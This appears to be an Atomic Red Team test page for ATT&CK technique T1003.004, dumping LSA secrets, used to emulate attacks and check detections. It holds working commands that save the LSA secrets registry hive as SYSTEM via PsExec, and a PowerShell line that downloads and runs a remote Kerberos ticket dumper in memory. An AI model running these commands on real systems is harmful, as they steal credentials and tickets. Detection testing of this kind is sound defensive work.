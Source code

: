 # T1003.004 - OS Credential Dumping: LSA Secrets
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1003/004)
<blockquote>Adversaries with SYSTEM access to a host may attempt to access Local Security Authority (LSA) secrets, which can contain a variety of different credential materials, such as credentials for service accounts.(Citation: Passcape LSA Secrets)(Citation: Microsoft AD Admin Tier Model)(Citation: Tilbury Windows Credentials) LSA secrets are stored in the registry at <code>HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets</code>. LSA secrets can also be dumped from memory.(Citation: ired Dumping LSA Secrets)

[Reg](https://attack.mitre.org/software/S0075) can be used to extract from the Registry. [Mimikatz](https://attack.mitre.org/software/S0002) can be used to extract secrets from memory.(Citation: ired Dumping LSA Secrets)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Dumping LSA Secrets](#atomic-test-1---dumping-lsa-secrets)

- [Atomic Test #2 - Dump Kerberos Tickets from LSA using dumper.ps1](#atomic-test-2---dump-kerberos-tickets-from-lsa-using-dumperps1)


<br/>

## Atomic Test #1 - Dumping LSA Secrets
Dump secrets key from Windows registry
When successful, the dumped file will be written to $env:Temp\secrets.
Attackers may use the secrets key to assist with extracting passwords and enumerating other sensitive system information.
https://pentestlab.blog/2018/04/04/dumping-clear-text-credentials/#:~:text=LSA%20Secrets%20is%20a%20registry,host%2C%20local%20security%20policy%20etc.

**Supported Platforms:** Windows


**auto_generated_guid:** 55295ab0-a703-433b-9ca4-ae13807de12f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| psexec_exe | Path to PsExec executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1003.004&#92;bin&#92;PsExec.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
"#{psexec_exe}" -accepteula -s reg save HKLM\security\policy\secrets %temp%\secrets /y
```

#### Cleanup Commands:
```cmd
del %temp%\secrets >nul 2> nul
```



#### Dependencies:  Run with `powershell`!
##### Description: PsExec from Sysinternals must exist on disk at specified location (#{psexec_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{psexec_exe}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://download.sysinternals.com/files/PSTools.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\PSTools.zip"
Expand-Archive "PathToAtomicsFolder\..\ExternalPayloads\PSTools.zip" "PathToAtomicsFolder\..\ExternalPayloads\PSTools" -Force
New-Item -ItemType Directory (Split-Path "#{psexec_exe}") -Force | Out-Null
Copy-Item "PathToAtomicsFolder\..\ExternalPayloads\PSTools\PsExec.exe" "#{psexec_exe}" -Force
```




<br/>
<br/>

## Atomic Test #2 - Dump Kerberos Tickets from LSA using dumper.ps1
This tool allows you to dump Kerberos tickets from the LSA cache. Implemented via Add-Type.
If the tool is run as a privileged user, it will automatically obtain NT AUTHORITY\SYSTEM privileges and then dump all tickets. If the tool is run as a non-privileged user, it will only dump tickets from the current logon session.
Ref: https://github.com/MzHmO/PowershellKerberos/
Author of dumper.ps1: Michael Zhmaylo (@MzHmO)

**Supported Platforms:** Windows


**auto_generated_guid:** 2dfa3bff-9a27-46db-ab75-7faefdaca732






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/MzHmO/PowershellKerberos/beed52acda37fc531ef0cb4df3fc2eb63a74bbb8/dumper.ps1')
```






<br/>
